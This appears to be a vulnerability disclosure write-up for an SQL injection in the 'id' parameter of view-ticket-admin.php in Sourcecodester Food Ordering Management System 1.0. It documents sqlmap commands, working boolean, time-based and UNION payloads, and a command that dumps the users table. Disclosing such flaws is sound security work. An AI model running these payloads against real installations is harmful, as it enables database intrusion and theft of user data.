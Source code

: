 # SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (view-ticket-admin.php)

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: view-ticket-admin.php

Injection parameter: id


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The id fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the view-ticket-admin.php:

`http://172.16.76.1/foms/view-ticket-admin.php`

![image](https://github.com/jadu101/CVE/assets/76433661/f00bf9b6-8a1f-4d34-b2dd-2c2616ef8c03)

We will first intercept the view-ticket traffic using Burp Suite:

![Screenshot from 2024-06-19 14-21-17](https://github.com/jadu101/CVE/assets/76433661/ca1c3344-5aac-479d-9813-f972980db5ea)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

id price is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-view-ticket-admin.txt --batch`

![Screenshot from 2024-06-19 14-22-34](https://github.com/jadu101/CVE/assets/76433661/06552488-4803-4c06-a35e-f99d32a10de8)

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5820=5820

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1153 FROM (SELECT(SLEEP(5)))TJiA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-3013 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176716b71,0x674f514145744f534654486259594c6e6d63775669714f656656796b687747487963774273506755,0x716a6a6a71),NULL,NULL-- -
---
```

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/efe8ddc0-e9c0-4a8e-b51c-cd626365ce3b)

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs -D foms_db -T users --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/cad2be77-d4c7-45f6-b4ef-726d1a6e751f)
